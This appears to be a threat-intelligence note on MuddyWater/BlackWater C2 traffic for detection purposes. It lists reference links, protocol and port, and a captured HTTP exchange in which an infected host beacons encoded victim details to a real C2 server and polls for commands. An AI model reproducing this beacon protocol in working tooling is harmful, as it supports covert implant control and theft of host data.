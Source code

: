 # Blackwater and Muddywater

#Links:
https://blog.talosintelligence.com/2019/05/recent-muddywater-associated-blackwater.html?m=1
https://github.com/xtr4nge/FruityC2/blob/master/agent/ps_agent.ps1
https://app.any.run/tasks/3b2c90d1-415f-4c4a-a050-eae298862da1/

# Protocols:
HTTP

# Ports:
80

# Sample:

```
POST /serverScript/clientFrontLine/helloServer.php?helloMsg=NEEtNkEtQjMtN0EtODgtQjQtMEYtNjQtRkYtNjYtQzctOTYtNzctM0UtMzUtRDUqNDAzMzQwMzMq%0D%0Ac2NydEFnbnQxLjEqTWljcm9zb2Z0IFdpbmRvd3MgNyBQcm9mZXNzaW9uYWwqMzItYml0KlVTRVIt%0D%0AUEMqV09SS0dST1VQKlVTRVItUENcYWRtaW4qMTkyLjE2OC4xMDAuMTE0 HTTP/1.1
Host: 94.23.148.194
Content-Length: 8
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

helloMsgHTTP/1.1 200 OK
Date: Wed, 10 Apr 2019 15:14:25 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

4
%HI%
0

POST /serverScript/clientFrontLine/getCommand.php?clientIdentity=NEEtNkEtQjMtN0EtODgtQjQtMEYtNjQtRkYtNjYtQzctOTYtNzctM0UtMzUtRDU= HTTP/1.1
Host: 94.23.148.194
Content-Length: 14
Expect: 100-continue

HTTP/1.1 100 Continue

clientIdentityHTTP/1.1 200 OK
Date: Wed, 10 Apr 2019 15:16:19 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

4
U0hI
0
```
